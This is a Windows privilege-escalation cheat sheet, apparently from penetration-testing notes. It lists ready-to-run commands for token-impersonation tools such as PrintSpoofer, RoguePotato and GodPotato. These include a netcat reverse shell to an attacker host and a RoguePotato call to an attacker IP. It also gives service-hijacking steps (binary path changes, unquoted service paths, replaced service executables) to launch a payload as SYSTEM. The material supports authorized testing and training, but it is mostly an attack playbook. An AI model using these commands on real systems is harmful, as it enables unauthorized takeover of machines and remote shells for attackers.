 ## Token Impersonation

- Command to check `whoami /priv`

```bash
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"

#RoguePotato
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999

#GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

#JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a

#SharpEfsPotato
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
#writes whoami command to w.log file
```

## Services

### Binary Hijacking

```bash
#Identify service from winpeas
icalcs "path" #F means full permission, we need to check we have full access on folder
sc qc <servicename> #find binarypath variable
sc config <service> <option>="<value>" #change the path to the reverseshell location
sc start <servicename>
```

### Unquoted Service Path

```bash
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """  #Displays services which has missing quotes, this can slo be obtained by running WinPEAS
#Check the Writable path
icalcs "path"
#Insert the payload in writable location and which works.
sc start <servicename>
```

### Insecure Service Executables

```bash
#In Winpeas look for a service which has the following
File Permissions: Everyone [AllAccess]
#Replace the executable in the service folder and start the service
sc start <service>
```

